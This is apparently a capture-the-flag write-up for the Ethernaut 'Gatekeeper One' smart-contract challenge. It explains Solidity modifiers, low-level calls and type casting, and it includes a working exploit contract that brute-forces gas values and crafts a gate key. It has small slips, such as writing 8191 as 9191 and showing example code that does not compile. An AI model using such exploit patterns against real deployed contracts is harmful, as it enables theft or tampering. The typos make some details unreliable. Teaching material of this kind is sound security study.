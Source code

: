 # Writeup for Gatekeeper One

- Hello h4ck3r, welcome to the world of smart contract hacking. Solving the challenges from Ethernaut will help you understand Solidity better. For each challenge, a contract will be deployed, and an instance will be provided. Your task is to interact with the contract and exploit its vulnerabilities. Don't worry if you are new to Solidity and have never deployed a smart contract. You can learn how to deploy a contract using Remix [here](https://youtu.be/3xNFZI8Ste4?si=i3cWN87OpX85zp6k).

### Challenge Description

Make it past the gatekeeper and register as an entrant to pass this level.

### Contract Explanation

If you understand the contract, you can move to the [exploit](#exploit) part. If you are a beginner, please go through the Contract Explanation as well. It will help you understand Solidity better.

<details>
<summary>Click to view the source contract</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

</details>

The contract has a state variable named `entrant`. The state variable `entrant` is a **address** type.

Modifiers in Solidity are special functions that modify the behavior of other functions.

<details>
<summary>Click to check the below example.</summary>

```solidity

contract A{
    address owner;
    constructor(){
        owner=msg.sender;
    }

    function hello() public view returns (string memory){
        require(msg.sender==owner,"Not Owner");
        return "hello";
    }

    function hi() public view returns (string memory){
        require(msg.sender==owner,"Not Owner");
        return "hi";
    }
}


contract B{
    address owner;
    constructor(){
        owner=msg.sender;
    }

    modifier onlyOwner(){
        require(msg.sender==owner,"Not Owner");
    _;
    }

    function hello() public view returns (string memory) onlyOwner{
        return "hello";
    }

    function hi() public view returns (string memory) onlyOwner{
        return "hi";
    }
}
```

If we see the contracts we can observe that in the first contract, we have written the same checks in two functions but in the second one we have written the checks in a modifier and we used a modifier in each function.

When we use `modifier` to a function, the function will first implement the `modifier` logic and then implement the function logic. By using modifiers we can write more optimized code.

</details>

```solidity
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
}
```

The above is a modifier named `gateOne()` which checks whether `tx.origin` is equal to `msg.sender` or not.

```solidity
modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
}
```

The above is a modifier named `gateTwo()`. It checks if `gasleft()%8191` is zero or not. `gasleft()` is an inbuilt function in the solidity that returns the amount of gas left during a contract call. In this case when the gateTwo() is called if `gasleft%8191==0` then the modifier will be passed.

```solidity

modifier gateThree(bytes8 _gateKey) {
    require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
    require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
    require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
}

```

```solidity
function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
}
```

The above function takes a **bytes8** argument as input. It executes all the `modifiers` one by one then if all the conditions in `modifiers` are passed then it will set entrant to `tx.origin` and returns `true`.

### Key Concepts to Understand

To exploit this contract we need to understand some key concepts in solidity.

When we interact with contracts using low-level call function it won't revert even if the calls failed. It will just return true or false.

<details>
<summary>Click to check the below example.</summary>

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract contract_One{
    function Wish(uint8 _num)public pure returns(string memory){
        if(_num%2==0){
            return "hello";
        }
        else{
            revert();
        }

    }
}

contract contract_two{
    bool public first_call;
    bool public second_call;
    bytes4 private constant FUNC_SELECTOR = bytes4(keccak256("Wish(uint8)"));

    function call_Wish(address _wish)public{
        (bool a,)=_wish.call(abi.encodeWithSelector(FUNC_SELECTOR,2));
        (bool b,)=_wish.call(abi.encodeWithSelector(FUNC_SELECTOR,1));
        first_call=a;
        second_call=b;
    }
}

```

First deploy `contract_one` then deploy `contract_two`. When we invoke `call_Wish()` in `contract_two` the function will make two level calls to contract_one calling the function `Wish()`. The first will be successful but the second call will revert because we are passing odd number. `Wish()` returns true "hello" only when passing even numbers. If we pass an odd number it will revert.

Even though the inner second call is reverted it is not reverting the main call (call_Wish). This behavior is only due to `low-level call`. When we use `low-level call` if the call is successful it returns `true` else it will return `false`.

</details>

One more key concept to learn is how typecasting works.

In Solidity, when a `uint` with a larger number of bits is converted to a type with a smaller number of bits, the first bits/bytes of larger value will be truncated. Same way when a bytes with a larger number of `bytes` is converted to a smaller number of bytes the last bits/bytes will be truncated.

<details>

<summary>Click to check the below example.</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Type_Casting{
    uint96 Number_1=1548647896516548945453658536;
    bytes12 Bytes_1=bytes12((Number_1));
    function uint96_to_uint48()public view returns(bytes32 before_conversion,bytes32 after_conversion,uint48 converted_val){
    before_conversion=bytes32(uint256(Number_1));
    converted_val=uint48(Number_1);
    after_conversion=bytes32(uint256(converted_val));
 }

 function bytes12_to_bytes6()public view returns(bytes32 before_conversion,bytes6 converted_val,bytes32 after_conversion){
    before_conversion=bytes32(Bytes_1);
    converted_val=bytes6(Bytes_1);
    after_conversion=bytes32(converted_val);
 }

}

```

Make sure you try out this in the remix. When we call the functions `uint96_to_uint48()` and `bytes12_to_bytes6()` the output will be as follows.

<p align="center">
  <img src="img/img1.png" />
</p>

If we observe the data of `bytes12_to_bytes6()` when **bytes12** is converted to **bytes6** only the first 6 bytes are taken. If we observe the `uint96_to_uint48()` when uint96 is converted to uint48 only the last 48 bits (6 bytes) are taken. You can find the difference by observing `before_conversion` and `after_conversion`. In the `uint96_to_uint48()` you can verify the `converted_val` by converting `0x0000000000000000000000000000000000000000000000000000f750833e31a8` into decimal.

</details>

### Exploit

Our goal is to call the `enter()` function and pass all the gates (modifiers).

```solidity
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
}
```

We can pass the `gateOne()` by interacting with the contract using our exploit contract. When we interact with GatekeeperOne using our exploit contract `msg.sender` will be our exploit contract address and `tx.origin` will be the address of the Externally Owned Account that is calling the exploit contract.

If you don't know what is `tx.origin` and `msg.sender` refer to the Telephone challenge. Chlick [here](../Telephone/WriteUp.md) to open the WriteUp.

```solidity
modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
}
```

It is checking if `gasleft()%9191==0` or not. `gasleft()` will return the remaining gas after executing the `gasleft()`. We can pass this modifier by making some 100 or 200 `low-level calls` to `GatekeeperOne` `enter()` function with different gas values. The low-level call function will return true only if the call is a success. Using this as an advantage we can pass this modifier.

```solidity
modifier gateThree(bytes8 _gateKey) {
    require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
    require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
    require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
 _;
}
```

Now let's assume our key as `B1 B2 B3 B4 B5 B6 B7 B8` where each B represents a byte. Since the key is 8 bytes there are 8 B's.

In the first condition, `uint32(uint64(_gateKey))` will return `B5 B6 B7 B8` and `uint16(uint64(_gateKey))` will return `B7 B8`. According to the condition, the bytes are `B5 B6 B7 B8` and `B7 B8`. This condition will only be satisfied if `B5` and `B6` are both zeros. Therefore, we can conclude that the last four bytes of our key will be `00 00 B7 B8`.

In the second condition uint32(uint64(\_gateKey)) will return `B5 B6 B7 B8` and uint64(\_gateKey) will return `B1 B2 B3 B4 B5 B6 B7 B8`. The condition will be satisfied only if `B1 B2 B3 B4` are non-zeros. From this, we can conclude that the key will be `B1 B2 B3 B4 00 00 B7 B8`.

In the third condition uint32(uint64(\_gateKey)) will return `B5 B6 B7 B8` and uint16(uint160(tx.origin)) will return last two bytes of the address. Suppose if our address is `0x95222290DD7278Aa3Ddd389Cc1E1d165CC4BAfe5` it will return `0xAfe5`. Assuming this as our wallet address we can conclude that our key will be `B1 B2 B3 B4 00 00 Af e5`.

The only restriction for `B1 B2 B3 B4` is it shouldn't be zero. That means this can be of any value. Now our key will be `aa bb cc dd 00 00 Af e5` which is `0xaabbccdd0000Afe5`.

Don't forget to change the last two bytes to your wallet address.

<details>

<summary>Click to check the exploit contract</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {GatekeeperOne} from "./GatekeeperOne.sol";


contract ExploitGatekeeperOne{
    GatekeeperOne Gate1;
    uint256 gasAmount=81910;
    constructor(address _addr){
        Gate1=GatekeeperOne(_addr);
    }
    function Exploit()public{
        bytes8 Key=0xaabbccdd0000Afe5;
        for(uint256 i=0;i<500;i++){
        (bool success,)=address(Gate1).call{gas:gasAmount+i}(abi.encodeWithSignature("enter(bytes8)",Key));
            if(success){
                break;
            }
        }
        require(Gate1.entrant()==0x95222290DD7278Aa3Ddd389Cc1E1d165CC4BAfe5);
    }
}
```

</details>

`gasAmount` is a multiple of `8191` because `i` will be the initial gas usage and after `i` amount of gas. Once the initial gas usage (calls before Gatetwo) is done the gasleft() will be multiple of 8191 and hence `gasleft()%8191` will return 0

Once you call the `Exploit()` function the challenge will be solved. But before calling make sure you change your address in the `ExploitGatekeeperOne` contract.

### Key Takeaways

We have learned about how typecasting works and we discussed how low-level call work. Refer [this](#key-concepts-to-understand) part if you forgot these.

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>
